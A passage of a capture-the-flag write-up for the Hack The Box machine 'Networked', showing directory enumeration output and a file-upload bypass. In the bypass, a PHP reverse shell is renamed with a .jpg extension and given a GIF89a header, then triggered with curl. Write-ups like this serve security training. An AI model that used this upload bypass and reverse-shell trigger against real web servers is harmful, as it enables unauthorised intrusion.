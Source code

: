 ## TCP/80 (HTTP)

- FFUF

```
301      GET        7l       20w      235c http://10.10.10.146/backup => http://10.10.10.146/backup/
403      GET        8l       22w      210c http://10.10.10.146/cgi-bin/
403      GET        8l       22w      215c http://10.10.10.146/cgi-bin/.html
200      GET        8l       40w      229c http://10.10.10.146/index.php
200      GET        0l        0w        0c http://10.10.10.146/lib.php
200      GET       22l       88w     1302c http://10.10.10.146/photos.php
200      GET        5l       13w      169c http://10.10.10.146/upload.php
301      GET        7l       20w      236c http://10.10.10.146/uploads => http://10.10.10.146/uploads/
```

- `lib.php`
- `photos.php`
- `upload.php`
- `uploads/`

# Initial Foothold

## TCP/80 (HTTP) - File Upload Bypass

1. After some testing at `http://10.10.10.146/upload.php`, 
		![](Pasted%20image%2020220913004647.png)
	- `.php` - unable to upload
	- `.jpg, .png` - successfully uploaded
	- Uploaded files go to `uploads/<IP Address>.ext`
2. Attempt file [upload bypass](https://yufongg.github.io/posts/Upload-bypass/)
	1. Upload `php-reverse-shell.php`, intercept w/ `burp`
	2. Change POST data

		```
		Content-Disposition: form-data; name="myFile"; filename="php-reverse-shell.php.jpg"
		Content-Type: image/jpg
		
		GIF89a;
		<?php
		...
		```

		![](Pasted%20image%2020220913020708.png)

3. Invoke reverse shell

	```
	┌──(root💀kali)-[~/htb/networked]
	└─# curl http://networked.htb/uploads/10_10_14_19.php.jpg
	```

